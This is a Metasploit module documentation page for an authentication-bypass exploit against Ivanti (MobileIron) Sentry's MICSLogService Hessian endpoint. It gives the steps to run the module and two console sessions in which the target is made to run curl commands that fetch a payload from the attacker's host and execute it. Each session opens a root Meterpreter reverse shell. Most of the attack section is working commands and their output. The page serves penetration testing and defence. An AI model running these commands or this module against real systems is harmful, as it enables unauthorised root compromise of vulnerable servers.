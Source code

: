 ## Vulnerable Application
Ivanti Sentry (formerly Mobileiron Sentry) is vulnerable to an authentication by-pass which exposes API functionality which
allows for code execution in the context of the root user. The vulnerable endpoint `/mics/services/MICSLogService` exposes
a binary web service protocol 'Hessian' which allows remote users to invoke functions within the target. One of the functions
accessible via Hessian and the vulnerable endpoint is `uploadFileUsingFileInput` which accepts a `command` argument
that gets directly fed into a `Runtime.getRuntime().exec(cmd)` call. The command is run in the context of the `tomcat2`
user however by default `tomcat2` is able to execute commands with sudo thus we can use this to execute the payload in the context
of the `root` user.


## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/ivanti_sentry_misc_log_service`
1. Do: `set RHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


### Installation
A vulnerable instance of the software can be downloaded with the following
[link](https://mobileironsentry.blob.core.windows.net/mobileironsentrycontainer/sentry-mobileiron-9.12.0-16.vhd)
(note the .vhd file is ~34 GB). Once downloaded, import the file into your favorite hypervisor to run the software.
VMware Fusion 12 with the Sentry VM configured with a bridged network adapter worked best for testing. The .vhd file is
configured to run with 256MB of RAM and 1 CPU. When first booted the VM appears to hang with the following message displayed:
```
Probing EDD (edd=off) ...
```
By increasing the RAM to somewhere around 8GB and providing more than 1 CPU core the `Probing EDD (edd=off) ...` message
goes away after a couple of seconds and the `EULA` should appear and Sentry configuration will begin.
Inputting defaults for everything should be satisfactory.

Once finished with the configuration input `show ip route` to get the IP address of the machine. Before running the module
check to ensure the MICS service is up and running by navigating to `https://<ip-address>:8443/` in a browser. If there
is no response, try restarting the VM - this is a
[known issue](https://forums.ivanti.com/s/question/0D54O00006zkSs0SAE/unable-to-contact-mics-service?language=en_US)
that rebooting the VM can resolve.

## Options

### SLEEP
Because the execution context does not allow for command piping or chaining we need to split the multi command payload
by semi-colon and send each command individually. This delay specifies how long to wait for each command to run.

### USE_SUDO
The command is executed in the context of the `tomcat2` user. By default the `tomcat2` user has the ability to execute
commands with `sudo`. In the event Sentry is installed on an OS that doesn't have the `sudo` binary, this has been left
has a configurable option in case it needs to be disabled.

## Scenarios

### MobileIron Sentry 9.12.0-16 (Unix In Memory)
```
msf6 > use linux/http/ivanti_sentry_misc_log_service
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > options

Module options (exploit/linux/http/ivanti_sentry_misc_log_service):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SLEEP  3                yes       How long to wait for each command to run. Because the execu
                                             tion context does not allow for command piping or chaining
                                             we need to split the multi command payload by semi-colon an
                                             d send each command individually
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...
                                             ]
   RHOSTS         192.168.1.78     yes       The target host(s), see https://docs.metasploit.com/docs/us
                                             ing-metasploit/basics/using-metasploit.html
   RPORT          8443             yes       The target port (TCP)
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly gener
                                             ated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   USE_SUDO       true             yes       Execute payload as root using sudo
   VHOST                           no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                        address on the local machine or 0.0.0.0 to listen on all address
                                       es.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, T
                                                  NFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QldLjjMRU        no        Name to use on remote system when storing payload; can
                                                  not contain spaces.
   FETCH_SRVHOST       192.168.1.72     no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain s
                                                  paces.
   LHOST               192.168.1.72     yes       The listen address (an interface may be specified)
   LPORT               4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > exploit
[*] Reloading module...

[*] Command to run on remote host: curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg; chmod +x /tmp/ccrjHXsc; /tmp/ccrjHXsc &
[*] Fetch Handler listening on 192.168.1.72:8080
[*] HTTP server started
[*] Adding resource /etRbFA76UzDRclkL8zrTdg
[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix (In-Memory) for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Running the command: sudo curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg
[*] Client 192.168.1.78 requested /etRbFA76UzDRclkL8zrTdg
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo  chmod +x /tmp/ccrjHXsc
[*] Running the command: sudo  /tmp/ccrjHXsc &
[*] Meterpreter session 6 opened (192.168.1.72:4443 -> 192.168.1.78:40550) at 2023-08-29 14:27:57 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

### MobileIron Sentry 9.12.0-19 (Linux Dropper)

```
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.72:8080/vgrmjQ1
[*] Generated command stager: ["curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1;chmod +x /tmp/NCAcpzqb;/tmp/NCAcpzqb;rm -f /tmp/NCAcpzqb"]
[*] Running the command: sudo curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1
[*] Client 192.168.1.78 (curl/7.29.0) requested /vgrmjQ1
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo chmod +x /tmp/NCAcpzqb
[*] Running the command: sudo /tmp/NCAcpzqb
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.78
[*] Meterpreter session 7 opened (192.168.1.72:4443 -> 192.168.1.78:40572) at 2023-08-29 14:28:22 -0400
[*] Running the command: sudo rm -f /tmp/NCAcpzqb
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```


